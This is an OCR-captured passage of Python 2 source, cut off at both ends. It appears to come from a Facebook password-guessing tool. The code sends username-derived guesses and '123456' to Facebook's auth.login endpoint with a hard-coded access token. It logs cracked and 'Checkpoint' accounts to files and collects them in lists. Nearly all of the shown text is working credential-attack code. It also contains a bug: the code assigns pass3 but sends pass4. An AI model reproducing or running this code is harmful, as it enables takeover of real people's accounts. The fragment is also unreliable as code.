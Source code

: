                 okb.close()

                oks.append(c+user+pass1)

            else:

                if 'www.facebook.com' in q['error_msg']:

                    print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass1

                    cps = open('save/Checkpoint.txt', 'a')

                    cps.write(k+c+user+pass1+'\n')

                    cps.close()

                    cpb.append(c+user+pass1)

                else:

                    pass2 = k + c + user

                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')

                    q = json.load(data)

                    if 'access_token' in q:

                        print '\x1b[1;92m[Successfull] ' + k + c + user +  '  |  ' + pass2

                        okb = open('save/Checkpoint.txt', 'a')

                        okb.write(k+c+user+pass2+'\n')

                        okb.close()

                        oks.append(c+user+pass2)

                    else:

                        if 'www.facebook.com' in q['error_msg']:

                            print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass2

                            cps = open('save/Checkpoint.txt', 'a')

                            cps.write(k+c+user+pass2+'\n')

                            cps.close()

                            cpb.append(c+user+pass2)

                        else:

                            pass3="123456"

                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')

                            q = json.load(data)

                            if 'access_token' in q:
